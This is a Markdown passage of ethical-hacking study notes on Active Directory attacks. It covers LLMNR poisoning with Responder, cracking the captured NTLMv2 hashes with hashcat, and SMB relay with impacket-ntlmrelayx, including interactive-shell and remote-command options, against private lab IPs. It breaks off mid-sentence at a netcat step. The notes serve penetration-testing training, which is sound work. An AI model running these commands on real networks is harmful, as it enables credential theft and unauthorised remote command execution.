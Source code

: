 ## 1. LLMNR Poisoning - NC

#### Tools
* **Responder**
* **Hashcat**

#### Attack
```
sudo responder -I eth0 -dwv 
```

#### Event
* When any user in tries to connect to another user or file share which the domain server can not resolve to any location, responder sends poisoned response and replies on behalf of the server that it knows where the destination is and asks for hash to authenticate and referred to the location which results in our output **(NTLMV2 Hash)**
#### Output 
* NTLM V2 hash
* Use [Hashcat](https://github.com/lucifugous/Practical-Ethical-Hacking-Notes/blob/main/Practical%20Ethical%20Hacking/Hashcat/Hashcat.md) to crack plaintext password from the hash :
```
	hashcat -m 5600 hash.txt wordlist.txt
	hashcat -m 5600 hash.txt wordlist.txt --show
```


---

## 2. SMB Relay Attack - NC

#### Tools
- **nmap**
- **Responder**
- **impacket-ntlmrelayx**
- **ntlmrelayx.py**

### Requirement
1. The host needs to have SMB sign in enabled but not enforced/ required. Check with following command 
   ==``` nmap --script=smb2-security-mode.nse -p445 -Pn 192.168.57.135 ```==
2. Responder needs to have ==` HTTP `== and ==` smb `== switched off
   ==``` sudo mousepad /etc/responder/Responder.conf ```==
3. Create a file with target IPs for ease of attack
   ==``` echo "192.168.57.130\n192.168.57.131" > targets.txt ```==

#### Attack
```
	sudo responder -I eth0 -dwv
	sudo impacket-ntlmrelayx -tf targets.txt --smb2support
				OR
	sudo impacket-ntlmrelayx -tf targets.txt --smb2support -i
				OR
	sudo impacket-ntlmrelayx -tf targets.txt --smb2support -c 'whoami'
```
- ==`-i`== option will create a interactive shell instance which can be used to bind with using ==` netcat `== :
